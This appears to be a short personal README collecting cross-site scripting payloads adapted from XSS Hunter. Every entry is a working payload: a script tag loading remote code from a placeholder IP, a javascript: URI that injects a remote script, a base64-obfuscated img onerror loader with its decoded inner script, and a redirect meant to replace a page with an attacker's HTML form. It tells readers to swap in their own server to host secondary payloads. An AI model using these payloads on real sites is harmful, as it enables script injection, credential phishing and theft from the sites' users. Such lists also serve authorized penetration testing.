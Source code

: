 # A Few of My Favorite XSS Payloads: 

Most of these are from or variations of [XSS Hunter]{https://xsshunter.com/app} payloads. 
You can simply modify the host in the payload and run your own web server to both host secondary payloads and check for blind XSS.

Basic Tag XSS payload -

"><script src=http://192.168.1.1></script>

URI XSS payload - 
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://192.168.1.1\';document.body.appendChild(a)')

IMG Tag Base64 encoded payload - 

  Final payload - (don't use this directly, follow the directions below. This is just an example)
  "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xOTIuMTY4LjEuMSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>

  Inner payload - modify your IP address then base64 encode this.
  var a=document.createElement("script");a.src="http://192.168.1.1";document.body.appendChild(a);

IMG Tag + iframe to replace page with your own HTML form - 
<img src=x onerror="Javascript:window.location.replace('http://192.168.1.1/payload.html')">





